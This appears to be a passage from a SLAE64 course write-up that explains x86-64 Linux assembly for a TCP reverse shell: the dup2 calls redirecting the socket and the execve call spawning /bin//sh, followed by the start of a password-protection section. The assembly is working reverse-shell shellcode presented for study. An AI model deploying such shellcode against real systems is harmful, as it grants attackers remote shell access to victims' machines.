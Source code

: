     ; dup2(sock, 0);
    ; dup2(sock, 1);
    ; dup2(sock, 2);
    ; __NR_dup2 = 33

    mov rax, 33
    mov rdi, rbx
    xor rsi, rsi
    syscall

    mov rax, 33
    inc rsi
    syscall

    mov rax, 33
    inc rsi
    syscall

### `execve()`

The shell is spawned by this part of the shellcode. I decided to use the execve stack method, which consists in calling [`execve(2)`][man_2_execve] after pushing its arguments to the stack.

    ; int execve(const char *path, char *const argv[], char *const envp[])
    ; rdi, path = (char*) /bin//sh, 0x00 (double slash for padding)
    ; rsi, argv = (char**) (/bin//sh, 0x00)
    ; rdx, envp = &0x00

    xor rax, rax
    push rax
    mov rdx, rsp ; *rdx = &0x00

    mov rsi, 0x68732f2f6e69622f
    push rsi
    mov rdi, rsp ; rdi = (char*) /bin//sh

    push rax
    push rdi
    mov rsi, rsp ; rsi = (char**) (/bin//sh, 0x00)

    mov al, 59
    syscall

We now have a TCP reverse shell. Next we're going to password protect it.

Adding a password
-----------------

To password protect the shell we need to do two things:

1. define a password
1. read a password from the user
1. compare it with the correct password

If the password is correct the shellcode spawns a shell, otherwise it quits. I defined a few objectives for this shellcode that were not specified in the assignment:


[man_2_socket]: https://linux.die.net/man/2/syscall
[man_2_connect]: https://linux.die.net/man/2/bind
[man_2_dup2]: https://linux.die.net/man/2/dup2
[man_2_execve]: https://linux.die.net/man/2/execve
[man_2_read]: https://linux.die.net/man/2/read
[man_3_stdin]: https://linux.die.net/man/3/stdin
[beej_sockaddr_in]: https://beej.us/guide/bgnet/html/multi/sockaddr_inman.html
[endianness]: https://en.wikipedia.org/wiki/Endianness
[intel_sdm]: https://software.intel.com/en-us/articles/intel-sdm
[felixcloutier_x86]: https://www.felixcloutier.com/x86/
[cdq]: https://www.felixcloutier.com/x86/cwd:cdq:cqo
[SLAE64]: https://www.pentesteracademy.com/course?id=7